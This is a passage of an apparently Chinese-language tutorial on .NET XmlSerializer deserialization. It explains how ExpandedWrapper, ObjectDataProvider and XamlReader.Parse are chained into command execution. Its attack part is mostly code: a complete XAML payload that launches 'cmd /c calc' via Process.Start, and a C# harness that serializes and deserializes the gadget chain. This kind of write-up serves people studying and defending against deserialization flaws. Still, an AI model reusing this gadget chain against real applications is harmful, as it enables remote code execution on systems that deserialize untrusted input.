 ```c#
							}
							else if (!array[3] && (base.Reader.LocalName == this.id10_MethodName && base.Reader.NamespaceURI == this.id2_Item))
							{
							// 设置 MethodName属性值 将会触发 MehtodName的set访问器 从而触发命令执行
								objectDataProvider.MethodName = base.Reader.ReadElementString();
								array[3] = true;
							}
				...
		}
```
到这里我们知道了通过`ExpandWrapper`包装`ObjectDataProvider`可以成功调用命令执行，但是这里有个问题就是我们的示例中调用的方法时自定义类`ProcessT`的`eval`方法，而在生产环境中是否存在这样一个可以进行命令执行的方法呢？  
可能会有，但是这里不讨论，这里我们通过另一种方式解决`Process`不能序列化的问题。  
通过前面的内容我们知道通过`ObjectDataProvider`可以调用任意类的任意方法，那么如果我们可以通过`XmlSerializer -> ObjectDataProvider -> xxx类xx方法 -> objectDataProvider -> Process`不一样可以解决问题？  
这里需要满足的条件时`xxx类xxx方法`在调用到`ObjectDataprovider`的过程中不会出现前面提到的某些类不能序列化的问题。  
这里找到的类以及方法为`XamlReader`的`parse`方法，该方法可以将`xaml`字符串反序列化为对应的数据对象。 
使用如下格式的`payload`边可以触发命令执行。  
```Xml
<ResourceDictionary 
                    xmlns=""http://schemas.microsoft.com/winfx/2006/xaml/presentation"" 
                    xmlns:d=""http://schemas.microsoft.com/winfx/2006/xaml"" 
                    xmlns:b=""clr-namespace:System;assembly=mscorlib"" 
                    xmlns:c=""clr-namespace:System.Diagnostics;assembly=system"">
                <ObjectDataProvider d:Key="""" ObjectType=""{d:Type c:Process}"" MethodName=""Start"">
                    <ObjectDataProvider.MethodParameters>
                        <b:String>cmd</b:String>
                        <b:String>/c calc</b:String>
                    </ObjectDataProvider.MethodParameters>
                </ObjectDataProvider>
            </ResourceDictionary>
```
可用如下代码进行测试
```c#
ExpandedWrapper<XamlReader, ObjectDataProvider> expandedWrapper = new ExpandedWrapper<XamlReader, ObjectDataProvider>();
            expandedWrapper.ProjectedProperty0 = new ObjectDataProvider();
            expandedWrapper.ProjectedProperty0.ObjectInstance = new XamlReader();
            expandedWrapper.ProjectedProperty0.MethodName = "Parse";
            expandedWrapper.ProjectedProperty0.MethodParameters.Add(@"<ResourceDictionary 
                    xmlns=""http://schemas.microsoft.com/winfx/2006/xaml/presentation"" 
                    xmlns:d=""http://schemas.microsoft.com/winfx/2006/xaml"" 
                    xmlns:b=""clr-namespace:System;assembly=mscorlib"" 
                    xmlns:c=""clr-namespace:System.Diagnostics;assembly=system"">
                <ObjectDataProvider d:Key="""" ObjectType=""{d:Type c:Process}"" MethodName=""Start"">
                    <ObjectDataProvider.MethodParameters>
                        <b:String>cmd</b:String>
                        <b:String>/c calc</b:String>
                    </ObjectDataProvider.MethodParameters>
                </ObjectDataProvider>
            </ResourceDictionary>
            ");
            MemoryStream memoryStream = new MemoryStream();
            TextWriter writer = new StreamWriter(memoryStream);
            XmlSerializer xml = new XmlSerializer(typeof(ExpandedWrapper<XamlReader, ObjectDataProvider>));
            xml.Serialize(writer, expandedWrapper);
            memoryStream.Position = 0;
            xml.Deserialize(memoryStream);
            Console.ReadKey();
```
